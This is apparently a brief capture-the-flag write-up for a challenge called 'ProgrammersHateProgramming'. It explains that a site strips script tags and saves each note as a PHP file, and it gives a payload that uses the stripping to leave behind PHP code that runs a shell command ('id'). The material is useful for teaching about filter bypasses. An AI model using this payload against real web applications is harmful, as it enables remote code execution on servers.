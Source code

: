 # ProgrammersHateProgramming

- Website removes `<script>` tags and it creates a php file everytime you create a note 

payload 
```
<?<script>php system('id')?</script>>
```

